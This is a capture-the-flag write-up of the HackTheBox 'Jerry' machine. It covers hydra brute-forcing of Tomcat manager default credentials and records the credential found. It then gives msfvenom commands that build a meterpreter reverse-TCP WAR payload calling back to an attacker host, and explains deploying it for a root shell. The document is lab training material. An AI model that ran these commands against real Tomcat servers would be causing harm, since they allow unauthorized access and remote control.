


# HackTheBox - Jerry

### What I Learned

1. Use hydra for web logins on popup windows
2. Always check for executable files within a single upload folder
3. Know the difference between staged and unstaged payloads in meterpreter

  
<strong>Writeup Summary</strong>

Scan the machine and find a webpage open and find an Apache Tomcat Page. Use default credentials to login. Look through the different managers and dashboards on the home page and find a page that allows for upload of WAR files. Generated a WAR file payload in the .jsp format. Upload it, unzip it, and navigate to the file into the server to get a reverse shell with root privileges.

 

## Writeup

Scan the machine

Nmap scan the machine and check directories with gobuster.

Find port 8080 open, navigate and find a default installation of Apache Tomcat. Start clicking around to different managers and dashboards on the home page.

Find Status, Manager App, and Host Manager
For http forms, use http-get or http-post, depending on the API call on the page

- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.129.107.192:8080/manager/html`

Try default working credentials and get working credential
`tomcat:s3cret`

Login and find a file upload option in the machines
Look at the examples of the uploaded WAR files

- WAR files are java packages
- In this instance, the files are of the format ".jsp"

Search for a meterpreter shell

- `msfvenom -l payloads | grep 'meterpreter\|windows\|x64'`
- `msfvenom -l payloads | grep 'windows/x64/meterpreter'`

Generate the payload in a war format

- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.209 LPORT=8686 -f war-o payload.war`

  Staged vs Unstaged

  - Meterpreter_reverse_tcp
  - Meterpreter/reverse_tcp

Open Meterpreter and use the meterpreter listener on multi/handler

- `set LPORT 8686`
- `set LHOST tun0`

Upload the war file using the Browse/Deploy window
Run the War file, but it doesn't work.

- unzip the file, check for the jsp file inside the war file, copy its name, and paste it into the filepath on the server

You have root privileges
